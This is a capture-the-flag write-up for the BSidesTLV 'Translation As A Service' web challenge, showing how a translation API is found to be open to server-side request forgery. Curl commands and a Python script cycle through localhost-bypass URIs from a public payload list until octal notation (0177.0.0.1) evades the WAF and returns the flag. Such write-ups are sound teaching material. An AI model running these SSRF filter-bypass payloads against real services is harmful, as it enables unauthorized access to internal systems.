

# Translation As A Service
* Category: Web Application
* 750 Points
* Solved by the JCTF Team

## Description
> Moving from one language to another can be rather difficult. Translation As A Service is a system that will allow you to smoothly use our own custom and unique translation algorithm, to transition from your own language to another.
> 
> http://translate.challenges.bsidestlv.com/

## Solution

We access the site and see a user interface which allows translating fron English to Spanish:



For example:
```console
root@kali:/media/sf_CTFs/bsidestlv/Translation_As_A_Service# curl http://translate.challenges.bsidestlv.com/api/translate?text=test
{"status":200,"content":"prueba"}
```

After playing around a bit, it appeared that the service is vulnerable to [SSRF](https://en.wikipedia.org/wiki/Server-side_request_forgery):
```console
root@kali:/media/sf_CTFs/bsidestlv/Translation_As_A_Service# curl http://translate.challenges.bsidestlv.com/api/translate?text=http://example.com
{"status":200,"content":"<!doctype html>\n<html>\n<head>\n    <title>Example Domain<\/title>\n\n    <meta charset=\"utf-8\" \/>\n    <meta http-equiv=\"Content-type\" content=\"text\/html; charset=utf-8\" \/>\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\" \/>\n    <style type=\"text\/css\">\n    body {\n        background-color: #f0f0f2;\n        margin: 0;\n        padding: 0;\n        font-family: \"Open Sans\", \"Helvetica Neue\", Helvetica, Arial, sans-serif;\n        \n    }\n    div {\n        width: 600px;\n        margin: 5em auto;\n        padding: 50px;\n        background-color: #fff;\n        border-radius: 1em;\n    }\n    a:link, a:visited {\n        color: #38488f;\n        text-decoration: none;\n    }\n    @media (max-width: 700px) {\n        body {\n            background-color: #fff;\n        }\n        div {\n            width: auto;\n            margin: 0 auto;\n            border-radius: 0;\n            padding: 1em;\n        }\n    }\n    <\/style>    \n<\/head>\n\n<body>\n<div>\n    <h1>Example Domain<\/h1>\n    <p>This domain is established to be used for illustrative examples in documents. You may use this\n    domain in examples without prior coordination or asking for permission.<\/p>\n    <p><a href=\"http:\/\/www.iana.org\/domains\/example\">More information...<\/a><\/p>\n<\/div>\n<\/body>\n<\/html>\n"}
```

We can see that if we request a URI, we get the source code. What if we try to access localhost?

```console
root@kali:/media/sf_CTFs/bsidestlv/Translation_As_A_Service# curl http://translate.challenges.bsidestlv.com/api/translate?text=http://localhost
{"status":400,"content":"\n    <html>\n    <body>\n        <h1>Our SuperWAF has detected suspicous behaviour...<\/h1>\n    <\/body>\n    <\/html>\n    "}
```

The request is being blocked by a WAF. If it's based on a blacklist, we might be able to bypass it using a different way to express localhost. [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery) is very helpful with this.

We can use the following Python script to try anything that looks like a URI from the cheat sheet:

```python
import requests

ssrf_list = requests.get("https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/README.md")

blacklist = ["SuperWAF", "no content", "Internal Server Error"]

for line in ssrf_list.text.split("\n"):
    if line.startswith("http"):
        print ("Attempting: '{}'".format(line))
        r = requests.get("http://translate.challenges.bsidestlv.com/api/translate?text={}".format(line.rstrip()))
        if not any([blacklist_item in r.text for blacklist_item in blacklist]):
            print (r.text)
            break
```

The output:
```console
root@kali:/media/sf_CTFs/bsidestlv/Translation_As_A_Service# python ssrf.py
Attempting: 'http://127.0.0.1:80'
Attempting: 'http://127.0.0.1:443'
Attempting: 'http://127.0.0.1:22'
Attempting: 'http://0.0.0.0:80'
Attempting: 'http://0.0.0.0:443'
Attempting: 'http://0.0.0.0:22'
Attempting: 'http://localhost:80'
Attempting: 'http://localhost:443'
Attempting: 'http://localhost:22'
Attempting: 'https://127.0.0.1/'
Attempting: 'https://localhost/'
Attempting: 'http://[::]:80/'
Attempting: 'http://[::]:25/ SMTP'
Attempting: 'http://[::]:22/ SSH'
Attempting: 'http://[::]:3128/ Squid'
Attempting: 'http://0000::1:80/'
Attempting: 'http://0000::1:25/ SMTP'
Attempting: 'http://0000::1:22/ SSH'
Attempting: 'http://0000::1:3128/ Squid'
Attempting: 'http://localtest.me'
Attempting: 'http://customer1.app.localhost.my.company.127.0.0.1.nip.io'
Attempting: 'http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost'
Attempting: 'http://bugbounty.dod.network redirect to 127.0.0.2 == localhost'
Attempting: 'http://127.127.127.127'
Attempting: 'http://127.0.1.3'
Attempting: 'http://127.0.0.0'
Attempting: 'http://0177.0.0.1/'
{"status":200,"content":"\n    <html>\n        <body>\n        <h1>Congratz!!!<\/h1>\n        <p>BSidesTLV{S$RF-1N-TR4NSLAT3-!Z-S0-KEWL!}<\/p>\n        <\/body>\n    <\/html>\n    "}

```

Octal representation did the trick.

The flag: BSidesTLV{S$RF-1N-TR4NSLAT3-!Z-S0-KEWL!}